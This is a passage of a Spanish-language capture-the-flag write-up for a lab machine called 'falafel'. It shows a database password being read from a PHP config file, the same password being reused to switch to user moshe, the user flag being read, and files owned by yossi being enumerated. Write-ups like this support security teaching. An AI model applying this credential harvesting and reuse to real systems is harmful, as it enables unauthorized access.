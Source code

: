 ```null
www-data@falafel:/home$ ls
moshe  yossi
```

En un archivo PHP están las credenciales a la base de datos

```null
www-data@falafel:/var/www/html$ cat connection.php 
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```

Se reutilizan para el usuario ```moshe``` a nivel de sistema

```null
www-data@falafel:/var/www/html$ su moshe
Password: 
setterm: terminal xterm does not support --blank
moshe@falafel:/var/www/html$ 
```

Puedo visualizar la primera flag

```null
moshe@falafel:~$ cat user.txt 
5d3d5e3afb467d93682eb54af1957332
```

Encuentro varios directorios y archivos cuyo propietario es ```yossi```

```null
www-data@falafel:/$ find \-user yossi 2>/dev/null | grep -v proc
./home/yossi
./var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service
./var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/tasks
./var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope
./var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope/tasks
./var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope/cgroup.clone_children
./var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope/notify_on_release
./sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service
./sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/tasks
./sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope
./sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope/tasks
./sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope/cgroup.clone_children
./sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope/notify_on_release
./dev/tty1
./run/user/1000
```
